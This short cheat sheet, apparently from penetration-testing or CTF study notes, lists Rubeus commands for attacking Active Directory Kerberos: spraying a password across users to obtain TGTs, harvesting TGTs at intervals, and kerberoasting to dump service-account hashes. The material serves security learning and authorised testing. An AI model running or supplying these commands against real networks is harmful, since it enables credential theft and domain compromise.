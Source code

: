 Rubeus.exe brute /password:Password1 /noticket
    - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 

Rubeus.exe harvest /interval:30 
    - This command tells Rubeus to harvest for TGTs every 30 seconds

Rubeus.exe kerberoast 
    - This will dump the Kerberos hash of any kerberoastable users    